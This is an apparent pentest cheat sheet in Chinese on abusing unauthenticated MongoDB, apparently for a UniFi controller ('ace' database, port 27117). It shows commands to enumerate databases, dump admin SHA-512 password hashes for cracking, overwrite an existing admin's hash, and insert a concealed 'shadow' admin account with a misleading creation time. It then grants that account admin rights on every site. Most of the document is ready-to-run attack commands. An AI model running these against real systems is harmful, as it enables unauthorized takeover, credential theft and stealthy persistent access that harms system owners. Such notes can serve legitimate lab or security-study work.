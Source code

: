 # Interact
```bash
	## 安装MongoDB功能 ##
#获取下载资源包
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
#解压tar文件
tar xvf mongodb-linux-x86_64-3.4.7.tgz
#cd 到bin
cd mongodb-linux-x86_64-3.4.7/bin

#################################
#使用MongoDB

./mongo mongodb://{target_IP}:27017
>show dbs;
>use ${db};
>show collections;
>db.${collection}.find().pretty() #pretty()以好看的格式查看输出
```

## 搜集数据库中的root用户信息
在服务器里，无需认证便可利用mongDB：
1. 在DB中查找admin的密码hash，尝试破解他
2. 重置admin的密码
3. 创建一个隐形的admin账户

找寻admin的散列密码：
```bash
#使用该json用于转储admin密码
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
# ace是数据库名字， --eval 是对json求值
```
#Tips `$6$`是sha-512的开头
替换已有的admin账号密码：
```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```
shadow admin:
首先创建一个密码，并加密成散列值，再把它塞到MongDB中
```bash
mkpasswd -m sha-512 <PASSWORD>
#替换其中的mail, name, x_shadow; time_created也可以改，但无必要，可用于迷惑
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "<PASSWORD-HASH>" })'

#看一下装进去没有，并且保留ObjectID条目，之后会用上（中间的ID部分）
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

```bash
#查找站点，并把新建立的admin插入进去，（ID用的上了）
mongo --port 27117 ace --eval "db.site.find().forEach(printjson);"

mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "{admin_objectID}", "permissions" : [ ], "role" : "admin", "site_id" : "{Site_objectID}" });'
# 重复这条命令，添加到别的site中


